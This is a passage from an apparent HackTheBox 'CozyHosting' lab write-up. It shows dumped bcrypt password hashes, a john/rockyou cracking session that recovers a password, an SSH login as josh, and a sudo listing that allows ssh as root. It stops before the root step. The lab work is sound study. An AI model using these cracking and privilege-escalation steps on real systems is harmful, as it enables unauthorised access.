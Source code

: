 ```postgresql
WARNING: terminal is not fully functional
Press RETURN to continue 

   name    |                           password                           
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)
```

Crack those with john and we are on our way. It is of note I checked `/etc/passwd` as app and found that josh was the user with a home directory, do that password is likely his.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/CozyHosting]
└──╼ $john hash --wordlist=/opt/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with 2 different salts (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
```


```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/CozyHosting]
└──╼ $ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...

josh@cozyhosting:~$ cat user.txt
772a739c14f4a-------------------
```



<h1>Root</h1>

<h2>sudo ssh</h2>

I check the classics of `sudo -l` and `pspy64` to find that ssh is executable as root.

```bash
josh@cozyhosting:~$ sudo -l
[sudo] password for josh: 
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

<h2>stdin, stdout, stderr</h2>

